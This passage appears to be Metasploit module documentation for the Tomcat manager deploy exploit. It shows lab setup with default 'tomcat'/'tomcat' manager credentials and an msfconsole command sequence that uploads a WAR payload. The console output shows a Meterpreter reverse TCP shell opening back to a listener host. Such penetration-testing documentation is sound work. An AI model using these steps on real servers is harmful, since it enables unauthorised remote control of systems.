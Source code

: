     [*] Started reverse TCP handler on 192.168.2.117:4444
    [*] Using manually select target "Linux x86"
    [*] Uploading 1579 bytes as 9QymzSGGU0H4e.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing /9QymzSGGU0H4e/Mfz7dGecAsKTjSxfZgBv.jsp...
    [*] Undeploying 9QymzSGGU0H4e ...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (335800 bytes) to 192.168.2.118
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.118:34294) at 2017-01-08 20:35:24 -0500

    meterpreter > sysinfo
    Computer     : 192.168.2.118
    OS           : Ubuntu 16.04 (Linux 4.4.0-21-generic)
    Architecture : x64
    Meterpreter  : x86/linux
    ```

### Tomcat8 (8.0.32) - Ubuntu server 16.04 64bit
Of note, as of 7, the permission role 'manager' has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup

1. `apt-get install tomcat8 tomcat8-admin`

#### text/script Interface Exploitation

1. Edit `/etc/tomcat8/tomcat-users.xml` to add:

    ```
    <role rolename="manager-script"/>
    <user username="tomcat" password="tomcat" roles="manager-script"/>
    ```

2. Restart tomcat: `sudo service tomcat8 restart`
  1. To verify the permissions are all set correctly, browse to `http://192.168.2.118:8087/manager/text/deploy`, and you should see `FAIL - Invalid parameters supplied for command [/deploy]
` as opposed to `403 Access Denied`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.118
    rhost => 192.168.2.118
    msf exploit(tomcat_mgr_deploy) > set rport 8088
    rport => 8088
    msf exploit(tomcat_mgr_deploy) > set target 3
    target => 3
    msf exploit(tomcat_mgr_deploy) > set payload linux/x86/meterpreter/reverse_tcp
    payload => linux/x86/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_deploy) > set path /manager/text
    path => /manager/text
    msf exploit(tomcat_mgr_deploy) > exploit
